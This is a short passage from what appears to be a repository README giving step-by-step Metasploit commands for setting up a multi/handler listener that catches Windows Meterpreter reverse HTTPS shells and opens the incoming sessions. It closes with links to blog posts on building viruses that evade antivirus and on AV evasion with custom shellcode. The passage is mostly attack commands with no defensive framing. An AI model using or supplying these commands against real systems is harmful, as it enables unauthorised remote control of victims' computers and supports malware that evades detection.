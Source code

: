 1. Install Metasploit
2. Open the Metasploit console.

    `msfconsole`
3. Run 

    `use exploit/multi/handler`

    `set payload windows/meterpreter/reverse_https`

    `set lport 443`

    `set lhost 111.222.333.444`

    `set ExitOnSession false`

    `exploit -j -z`
4. Wait for incoming connection (session)
5. Connect to incoming session.

    `sessions -i 1` # 1 = session no. 

***
## 6. Resources
Misc resources. 

1. <http://realhackerspoint.blogspot.com/2013/02/create-virus-that-bypasses-antivirus.html/>
2. <http://www.digitalthreat.net/2012/02/anti-virus-evasion-using-custom-shellcode/>

***
